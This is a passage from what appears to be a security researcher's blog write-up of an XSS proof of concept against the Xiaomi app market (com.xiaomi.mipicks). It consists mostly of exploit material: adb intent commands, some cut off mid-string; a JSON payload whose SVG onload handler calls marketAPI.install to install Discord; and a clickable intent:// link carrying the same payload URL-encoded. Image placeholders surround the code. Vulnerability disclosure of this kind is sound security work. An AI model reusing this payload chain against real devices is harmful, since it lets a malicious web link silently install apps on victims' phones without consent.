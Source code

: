 XSS POC
-------

```
 adb shell am start -a android.intent.action.VIEW -d 'mimarket:

```

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:821/1*jGBvnlozGHkiBdhMVD8ykA.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:852/1*so-X7MWEAOk_eW9dlbibkA.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1665/1*S9QkvmNNmovkqLvFfIXbDQ.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:830/1*Za4Vin8W5JQU2hmDshunVg.png)

First we need to retrieve info about app we want to install so I used [medusa](https://github.com/Ch0pin/medusa) to get The app info by intercept all URI and Intent calls

```
{"title":"Reproduce Proof of concept","type":"yaytypeyay\u0022\u003e\u003csvg onload\u003d\u0022javascript\u003aalert(marketAPI.install({'title':'Discord','pName':'com.discord','appId':'472727','callBack':'marketAsyncCb.installCb'}))\u0022\u003e","subtitle":"By HappyJester","tips":"Test","btnTips":"Button"}

```

```
adb shell am start -a android.intent.action.VIEW -d 'mimarket:

```

```
<h1>
<a rel="noreferrer" href="intent://browse?url=file%3A%2F%2Fintegral-dialog-page.html?integralInfo=%7B%22%74%69%74%6C%65%22%3A%22%52%65%70%72%6F%64%75%63%65%20%50%72%6F%6F%66%20%6F%66%20%63%6F%6E%63%65%70%74%22%2C%22%74%79%70%65%22%3A%22%79%61%79%74%79%70%65%79%61%79%5C%75%30%30%32%32%5C%75%30%30%33%65%5C%75%30%30%33%63%73%76%67%20%6F%6E%6C%6F%61%64%5C%75%30%30%33%64%5C%75%30%30%32%32%6A%61%76%61%73%63%72%69%70%74%5C%75%30%30%33%61%61%6C%65%72%74%28%6D%61%72%6B%65%74%41%50%49%2E%69%6E%73%74%61%6C%6C%28%7B%27%74%69%74%6C%65%27%3A%27%44%69%73%63%6F%72%64%27%2C%27%70%4E%61%6D%65%27%3A%27%63%6F%6D%2E%64%69%73%63%6F%72%64%27%2C%27%61%70%70%49%64%27%3A%27%34%37%32%37%32%37%27%2C%27%63%61%6C%6C%42%61%63%6B%27%3A%27%6D%61%72%6B%65%74%41%73%79%6E%63%43%62%2E%69%6E%73%74%61%6C%6C%43%62%27%7D%29%29%5C%75%30%30%32%32%5C%75%30%30%33%65%22%2C%22%73%75%62%74%69%74%6C%65%22%3A%22%42%79%20%48%61%70%70%79%4A%65%73%74%65%72%22%2C%22%74%69%70%73%22%3A%22%54%65%73%74%22%2C%22%62%74%6E%54%69%70%73%22%3A%22%42%75%74%74%6F%6E%22%7D#Intent;scheme=mimarket;package=com.xiaomi.mipicks;end">
        GO</a>
</h1>

```
